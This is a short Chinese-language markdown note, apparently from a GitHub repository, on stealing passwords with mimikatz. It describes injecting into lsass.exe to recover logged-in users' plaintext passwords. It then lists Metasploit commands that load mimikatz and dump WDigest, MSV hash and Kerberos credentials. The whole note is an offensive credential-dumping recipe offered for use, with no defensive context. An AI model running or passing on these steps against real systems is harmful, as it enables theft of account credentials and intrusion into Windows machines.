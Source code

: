 # mimikatz密码盗取

# 从内存中提取密码

## 注入lsass.exe(一个payload二进制文件)并从中提权登录用户的明文密码

## 在msf中

```bash
use mimikatz    \\调用模块

wdigest     \\(获取WDigest凭据)

msv    \\（获取msv凭据（hash））

kerberos       \\（获取kerberos）
```
![](img/1.png)
